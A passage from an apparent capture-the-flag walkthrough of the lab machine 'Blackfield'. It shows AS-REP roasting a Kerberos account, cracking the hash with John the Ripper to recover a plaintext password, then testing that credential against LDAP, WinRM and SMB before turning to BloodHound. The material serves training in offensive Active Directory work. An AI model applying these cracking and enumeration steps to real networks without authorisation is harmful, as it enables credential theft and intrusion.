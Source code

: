 From our results, both **audit2020** and **svc_backup** do not require pre-authentication. However, only the **support** user returns a **TGT**, making it a viable target for AS-REP roasting.
We will use **John the Ripper** to attempt cracking the **TGT (Ticket Granting Ticket)** and recover the user's plaintext password

````bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
1g 0:00:00:12 DONE (2025-02-04 17:02) 0.08058g/s 1155Kp/s 1155Kc/s 1155KC/s #1ByNature..#*burberry#*1990
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
````

With this newly obtained user, we attempted to enumerate **LDAP**, access **SMB shares**, and authenticate via **WINRM**.

````bash
❯ ldapsearch -x -H ldap://10.10.10.192 -D "cn=support,dc=blackfield,dc=local" -w '#00^BlackKnight' -b "dc=blackfield,dc=local"
ldap_bind: Invalid credentials (49)
        additional info: 80090308: LdapErr: DSID-0C090446, comment: AcceptSecurityContext error, data 52e, v4563
````

````bash
❯ nxc winrm 10.10.10.192 u 'support' -p '#00^BlackKnight'
WINRM       10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
````

````bash
❯ smbclient -L //10.10.10.192/ -U support
Password for [WORKGROUP\support]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	forensic        Disk      Forensic / Audit share.
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	profiles$       Disk      
	SYSVOL          Disk      Logon server share 
````

Unfortunately, we didn't find anything useful to progress our escalation, so we'll resort to using **BloodHound**.

**BloodHound** is a powerful tool for enumerating and analyzing Active Directory permissions. It helps identify potential attack paths by mapping out relationships between users, groups, and permissions within an Active Directory environment, often revealing ways to escalate privileges or compromise high-value targets.
